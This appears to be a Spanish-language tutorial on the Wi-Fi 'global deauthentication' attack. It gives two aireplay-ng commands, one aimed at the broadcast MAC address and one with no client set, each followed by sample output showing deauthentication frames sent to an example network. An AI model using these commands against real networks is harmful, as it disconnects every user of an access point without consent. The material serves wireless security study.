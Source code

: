 <br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Global" style="text-align:center;">Ataque de Desautenticación Global</h1>
</div>
<br>


¿De que va este ataque?

| **Ataque de Desautenticación Global** |
|:-----------:|
| *El ataque de desautenticación global es una variación del ataque de desautenticación en redes Wi-Fi, donde el atacante envía paquetes de desautenticación a todos los dispositivos conectados a un punto de acceso (AP) en lugar de dirigirse a un solo cliente.*|

<br>

Para hacer esto, existen 2 formas distintas y vamos a aplicar ambas.

<h2 id="Primera">Usando la Broadcast MAC Address para Ataque de Desautenticación Global</h2>

Para esta forma, cambiaremos el cliente por el parámetro **-c** y le pondremos lo que es la **Broadcast MAC address**. 

| **Broadcast MAC address** |
|:-----------:|
| *La dirección MAC de broadcast tiene un valor específico en cada formato (48 bits o 64 bits) y se utiliza para enviar tramas a todos los dispositivos en una red local. En el formato de 48 bits, la dirección de broadcast es "FF:FF:FF:FF:FF:FF", mientras que en el formato de 64 bits, es "FF:FF:FF:FF:FF:FF:FF:FF". Cuando un dispositivo envía una trama a la dirección de broadcast, todas las interfaces de red dentro de la red local la recibirán.* |

<br>

Para este caso, vamos a usar la **Broadcast MAC** de 48 bits.

Antes de empezar el ataque, conecta 2 dispositivos a una misma red para que veas que se desconectaran cuando inicies el ataque.

Ahora si, inicia el ataque:
```bash
aireplay-ng -0 10 -e Wifi_Salon -c FF:FF:FF:FF:FF:FF  wlan0
15:04:40  Waiting for beacon frame (ESSID: Wifi_Salon) on channel 11
Found BSSID "MAC:Wi:Fi:Sa:lon:XD" to given ESSID "Wifi_Salon".
15:04:41  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
15:04:41  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [14| 0 ACKs]
15:04:42  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 5| 0 ACKs]
15:04:43  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 5| 0 ACKs]
15:04:44  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 1| 0 ACKs]
15:04:44  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
15:04:45  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
15:04:46  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
15:04:46  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
15:04:47  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0| 0 ACKs]
```
Observa que se realiza el ataque y si tenías dos o más dispositivos conectados, se habrán desconectado temporalmente.

<h2 id="Segunda">Usando Ataque de Desautenticación Global Sin Especificar Cliente</h2>

Para esta forma, solamente vamos a eliminar el parámetro **-c** y la herramienta, automáticamente, realizará el ataque:
```bash
aireplay-ng -0 10 -e Wifi_Salon wlan0   
15:06:43  Waiting for beacon frame (ESSID: Wifi_Salon) on channel 11
Found BSSID "MAC:Wi:Fi:Sa:lon:XD" to given ESSID "Wifi_Salon".
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
15:06:43  Sending DeAuth (code 7) to broadcast -- BSSID: [MAC:Wi:Fi:Sa:lon:XD]
15:06:43  Sending DeAuth (code 7) to broadcast -- BSSID: [MAC:Wi:Fi:Sa:lon:XD]
15:06:44  Sending DeAuth (code 7) to broadcast -- BSSID: [MAC:Wi:Fi:Sa:lon:XD]
15:06:44  Sending DeAuth (code 7) to broadcast -- BSSID: [MAC:Wi:Fi:Sa:lon:XD]
15:06:45  Sending DeAuth (code 7) to broadcast -- BSSID: [MAC:Wi:Fi:Sa:lon:XD]
```